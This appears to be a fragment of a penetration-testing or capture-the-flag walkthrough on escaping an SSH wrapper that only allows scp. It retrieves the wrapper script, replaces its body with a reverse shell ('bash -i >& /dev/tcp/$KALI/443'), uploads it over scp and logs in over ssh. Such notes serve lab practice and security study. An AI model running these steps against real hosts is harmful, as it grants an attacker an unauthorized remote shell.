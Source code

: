 
#### Overwrite files on target (sshd_config)
\
```
scp -i file.pem user@remote_host:/home/user/file.json /local/path/to/save/
```
Source code retrieved from target:
```
#!/bin/bash
case $SSH_ORIGINAL_COMMAND in
 'scp'*)
    $SSH_ORIGINAL_COMMAND
    ;;
 *)
    echo "ACCESS DENIED."
    scp
    ;;
esac
```
Notice "scp" is just a system command, so let's replace that line with a reverse shell:
```bash - kali
bash -i >& /dev/tcp/$KALI/443 0>&1
```
```bash - kali
scp -i id_rsa ../scp_wrapper.sh max@$TARGET:/home/max
```
```bash - kali
ssh -i id_rsa max@$TARGET
```
